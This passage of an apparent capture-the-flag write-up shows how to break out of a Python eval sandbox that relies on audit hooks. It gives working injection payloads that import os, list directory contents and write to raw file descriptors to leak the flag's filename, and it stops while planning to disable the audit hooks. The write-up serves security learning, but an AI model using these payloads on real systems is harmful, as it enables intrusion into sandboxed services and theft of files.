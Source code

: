 ```diff
         return game_score
     sys.stdout = challenge_original_stdout
```

Let's play around with the modified target, and use various payloads:

`listdir()` function does not use `open()`, and instead should use the `getdents64` system call, on which we do not have a ban:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 6547291801889
Raised event: builtins.input
__builtins__['__import__']('os').listdir()
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Raised event: os.listdir
Evaluated data:
['modified-service.py', 'notes.txt']
Guess game end!!!
```

We can use file descriptors as a workaround against the `sys.stdout` defense. We know that `stdin`, `stdout`, and `stderr` are the file descriptors `0`,`1`, and `2` correspondingly.
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
 [*] right_guesser_question_answer: 1362778703045
Raised event: builtins.input
__builtins__['__import__']('os').write(1, b'Hello World!\n')
Raised event: builtins.input/result
Raised event: compile
Raised event: exec
Hello World!
Evaluated data:
13
Guess game end!!!
```

So, let's combine our two primitives against the original target to leak the filename of the flag:
```bash
Welcome to my guesser game!
Can u guess the number? between 1 and 9999999999999 >
```
`__builtins__['__import__']('os').write(1, ', '.join(__builtins__['__import__']('os').listdir()).encode('utf-8')+b'\n')`
```bash
service.py, flag.txt
Guess game end!!!
```

Great! So we know that the flag file is named `flag.txt`. Now, we have to come up with a way to either spawn a shell or dump it. Most of the shell spawning primitives are banned in the events. And `open` is also banned in the events so we cannot open it in order to dump it. We have to come up with a way to disable the audit hooks.
